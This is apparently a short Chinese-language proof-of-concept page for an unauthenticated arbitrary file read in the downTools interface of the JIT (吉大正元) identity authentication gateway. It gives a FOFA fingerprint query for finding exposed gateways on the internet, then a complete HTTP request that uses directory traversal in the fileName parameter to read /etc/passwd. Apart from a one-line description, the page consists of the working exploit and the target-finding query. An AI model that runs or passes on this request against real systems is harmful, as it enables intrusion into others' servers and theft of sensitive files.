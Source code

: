 # 吉大正元身份认证网关downTools任意文件读取漏洞

吉大正元身份认证网关 downTools 接口存在任意文件读取漏洞，未经身份验证攻击者可通过该漏洞读取系统重要文件。

## fofa

```javascript
body="/jit_pnx_portal/" || header="server: jit_pnxcore1 web service" || title="吉大正元身份认证网关"
```

## poc

```javascript
GET /jit_pnx_portal/downTools?fileName=../../../../../../../../../etc/passwd HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/89.0.4389.82Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7,zh-TW;q=0.6
Connection: close
```

![image-20241101194808396](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202411011948455.png)